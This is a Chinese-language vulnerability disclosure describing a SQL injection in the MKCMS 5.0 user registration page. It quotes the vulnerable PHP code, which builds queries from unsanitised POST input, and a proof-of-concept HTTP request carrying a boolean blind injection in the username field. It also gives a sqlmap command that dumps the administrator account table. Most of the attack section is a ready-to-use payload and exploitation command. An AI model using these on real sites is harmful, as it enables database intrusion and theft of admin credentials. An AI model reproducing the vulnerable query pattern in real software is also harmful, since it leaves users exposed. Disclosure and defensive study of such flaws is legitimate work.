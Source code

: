 #### 漏洞详情： ####
漏洞出现在/ucenter/reg.php第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时$username参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题


POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1
    
    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![](KCMS5.0前台sql注入/20190223150855-e20a10fc-3739-1.jpeg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：
    
    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump
![](KCMS5.0前台sql注入/20190223150915-edf05c14-3739-1.jpeg)

### 参考链接 ###
https://xz.aliyun.com/t/4189